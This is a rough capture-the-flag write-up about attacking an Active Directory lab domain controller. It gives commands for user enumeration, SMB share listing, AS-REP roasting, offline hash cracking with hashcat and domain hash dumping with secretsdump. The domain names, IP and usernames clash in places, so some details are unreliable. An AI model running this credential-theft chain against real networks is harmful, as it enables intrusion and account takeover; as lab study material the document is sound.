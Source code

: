 
## Enumerating the DC ( for getting users )
1. By using `enum4linux` we will be able to find out the domain name and TLD (ex:.local) system is using.
2. If you have port *445* open then use 	`rpcinfo`.
3. Use `enum4linux 10.10.10.161` for user enumeration.
4. Now we gonna use `kerbrute` to bruteforce discovery of users, passwords and even password spray.
- As example usage: `
kerbrute userenum --dc htb.local -d spookysec.thm userlist.txt`
![https://i.imgur.com/WIxrzfh.png](https://i.imgur.com/WIxrzfh.png)
*Users found on DC*

So as far we found 
1. Domain name - spookysec.local
2. Users - srv-admin,backup,administrator

3. So now we will enum the SMB service 
`smbclient -L spookysec.local --user svc-admin`
`smbclient \\\\spookysec.local\\backup --user svc-admin`

### Enumerating users for dumping hashes out of DC controller


## Exploiting Kerberos
After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called **ASREPRoasting.** ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account **does not** need to provide valid identification before requesting a Kerberos Ticket on the specified user account.
[Impacket](https://github.com/SecureAuthCorp/impacket) has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

---
`python3 GetNPUsers.py spookysec.local/svc-admin` gives this hash so we have the hash now as we can query without a password.

![https://i.imgur.com/1g1GG4w.png](https://i.imgur.com/1g1GG4w.png)
*Hash we need to crack*

````
hashcat -m 18200 hash.txt passwordlist.txt
````

By the above command we will be able to get the cracked password.

After having creds we can dump the files 
````
python3 secretsdump.py -just-dc backup@spookysec.local
````

![https://i.imgur.com/yiTiBai.png](https://i.imgur.com/yiTiBai.png)
